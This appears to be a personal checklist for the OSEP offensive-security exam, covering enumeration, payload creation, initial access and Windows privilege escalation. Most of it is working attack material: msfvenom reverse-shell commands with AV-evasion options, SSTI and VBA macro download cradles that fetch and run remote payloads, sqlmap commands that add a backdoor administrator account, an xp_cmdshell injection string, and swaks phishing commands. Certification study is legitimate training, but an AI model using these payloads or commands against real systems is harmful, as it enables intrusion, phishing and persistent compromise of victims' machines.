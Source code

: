 # Checklist for OSEP

## Enumeration

- Switch on your apache server
- Identify External vs Internal vs Vault IPs
- Full nmap scan (TCP + UDP) against External Hosts
- Note hostnames and update /etc/hosts
- Re-scan against hostnames
- Hostnames usually mean something. Put a remark in the table. For e.g, note things like clients, devs, DB etc
- Web Services should be fully enumerated with feroxbuster/gobuster.
	- Check Source Code for possible reveal of tech stack (ie .NET Razer)
	- Login pages for default creds
	- Wordpress sites to be wpscan
	- file upload pages to be tested
	- If there are two or more webservices on the same host (especially if one is like 80 or 8080) and there is a fileupload vector, one should test for path traversal when uploading files. It might be that it is possible to gain file execution only via the port 80 service. 
		- see if you can influence the upload path either by DIRECTLY CHANGING the NAME of the file (..\..\..\..\..\inetpub\wwwroot\evil.aspx) or burpsuite-ing it
- DevOps stuff like gitlab, Ansible, Artifactory should be noted down as they will likely play a part further on
- If there are fields for user input, please try SQL Injection, SSTI payloads. SQLMap can be very useful. For SSTI payloads, run the following:
```bash
# basically if the math resolves, it is vulnerable to code execution
{{4*4}}
@(3+2)
<%= 3 * 2 %>
```

## Meterpreter Payload Creation

- Use Get-Shellcode (https://github.com/gh0x0st/Get-Shellcode) to obfuscate ps1 meterpreter shellcode
- Slot that nice obfuscated shellcode into your ps1 shellcode runner. Remember to update the variables accordingly in the rest of the code. This has a 100% success rate on all OSEP Challenge Labs (CowMotors and DenkiAir included)
- if you are creating an .exe payload from csharp, use Sleep, non-emulated APIs (such as VirtualAllocExNuma) for sandbox evasion, use multiple byte XOR to encrypt your payload
- same idea for VBA
- for .hta code, it is jscript; XOR the shellcode, do dotnet2js, prepend an obfuscated jscript into the output .hta file from dotnet2js
- for prependmigrate, you need to set it up as a msfvenom option when creating a payload. Note that explorer may not always work if the target user is not an interactive user (such as svc accounts, IIS blah blah)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=443 prpendmigrateprocess=explorer.exe prependmigrate=true -f exe > evil.exe
```

### Catching Meterpreter Shells

- x86 for MSWord vectors, x64 for everything else
- Consider setting AutoRunScript in the advanced options of exploit/multi/handler to run a process migration upon establishing the meterpreter shell to evade AV
- if it doesnt work, you may wish to use prepend migrate which is another form of migration but done earlier in the process of establishing the shell (might be more unstable but allegedly more evasive)
```bash
# prepend migrate
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=443 EXITFUNC=Thread prpendmigrateprocess=explorer.exe prependmigrate=true -f ps1
# in Meterpreter
msf6 (exploit/multi/handler) > set AutoRunScript post/windows/manage/migrate
#OR
msf6 (exploit/multi/handler) > set prependmigrate true; set prependmigrateprocess explorer.exe
```

## Initial Access

### Web SSTI Vulnerability
- if SSTI vulnerable, read this for more info (https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/) (https://www.schtech.co.uk/razor-pages-ssti-rce/)
- test for command execution with
```csharp
@{ 
  var psi = new System.Diagnostics.ProcessStartInfo("cmd.exe", "/c whoami");
  psi.RedirectStandardOutput = true;
  psi.UseShellExecute = false;
  var proc = System.Diagnostics.Process.Start(psi);
  var output = proc.StandardOutput.ReadToEnd();
}
@output
# ping check
@(System.Diagnostics.Process.Start("ping.exe", "<kali ip>"))

```
if the above works then powershell shellcode runner
```csharp
@{ System.Diagnostics.Process.Start("cmd.exe", "/c powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.XX.XX/simplerunner64.txt')"); }
# you may need to base64 it!
```

### SQL Vulnerability

- try out with simple payloads first like:
```
' OR 1=1 -- //
```
- avoid using sites that redirect upon successful auth bypass, cause that will make any automated tools like SQLMap run slower and more unstable
for sites that are vulnerable, capture the vulnerable parameter using Burpsuite, create a requests file to pass to sqlmap
```bash
# Manual sqlmapping
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a"
# test for command execution
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd=whoami --thread=10
# if above okay, attempt to add new admin user
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd="net user hacker P@ssw0rd123! /add" 
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd="net localgroup administrators hacker /add"
# try to get shell
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-shell
# if above does not work, try sql shell and then enable xp_cmdshell. Can also consider uploading a malicious asp file to web root and execute
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --sql-shell

## manual SQL Injection in BurpSuite; note you may need to use + or %20 for the whitespaces
http://192.168.X.X/login.asp?user=test&pass=1' or 1=1;EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```
- Note if there is SQL vuln, that means there is an SQL database somewhere (most likely MSSQL)

### Email Phishing Vector
- Look out for hosts with smtp (Port 25 default) and see if there are any email addresses found
- Use smtp-user-enum if unable to find email addresses
- send email with swaks
```bash
# Send as Attachment
sudo swaks -t target@domain.com --from hacker@hacker.com --server <host with port25> --body 'CV Attached' --header Anything --attach @<name of attachedfile>

# Send malicious link
sudo swaks -t target@domain.com --from hacker@hacker.com --server <host with port25> --body 'Click here http://<attacker ip>>/clickme.hta' --header Anything

```

### MSDoc Phishing
- Assuming you know that you need to set up the DocumentOpen and AutoOpen functions
- if .doc related, start off with a simple ping payload to check connectivity and command execution
```vba
Sub MyMacro()
	Dim str As String
	str = "ping.exe <kali ip>"
	Shell str, vbHide
End Sub
```
- if the above fires, use a powershell download cradle to fire off a meterpreter shell. Note that for MSWord, you need a x86 payload!
```vba
Sub MyMacro()
	Dim str As String
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/amsi.txt')"
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/simplerunner.txt')"
	Shell str, vbHide
End Sub
```
- if (New-Object System.Net.WebClient) does not work you can use the following. Though if New-Object doesnt work, it is likely that IEX is disabled as well
```vba
Sub MyMacro()
	Set shel_obj = CreateObject("Wscript.Shell")
	shell_obj.Run "powershell.exe -ep bypass -c iwr http://kali/simplerunner.txt | IEX", 0
End Sub
```
- if the above fails, likely powershell is restricted in some way or your meterpreter shell is caught (check for hits to your apache server)
- Another way via WMI (do one by one, AMSI first and then the powershell)
```vba
Sub MyMacro()
    strArg = "powershell -enc SQBFAFgAKA... "
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
```
- Can consider a direct VBA Shellcode Runner (obfuscated shellcode) of course
- if not, you can use get the VBA to download your compiled executable and execute it with InstalUtil

### ELF File Upload

- Linux boxes are usually simpler. Try the following payload
- Prependfork=true spawns a child process before executing the malcode which is stealthier and is more stable as the parent process wont crash or have malcode running in it
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```

-----------------------------------------------------------------------------------------------
## PrivEsc

## Windows

### SeImpersonatePrivilege

- If you have meterpreter, just use GetSystem
- If not, try SigmaPotato.exe. This doesnt get caught in OSEP Labs (though it will definitely get caught in modern systems)
- If not, you can use an obfuscated PrintSpoofer

### AlwaysInstallElevated

- multiple ways to do this. Need to see which works
**Via Meterpreter**
```bash
# remember to set a x64 payload or else this wont work
use exploit/windows/local/always_install_elevated
```
**Via Msfvenom**
- I cannot get this to work ever
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.141 lport=443 -a x64 --platform windows -f msi -o ignite.msi

```
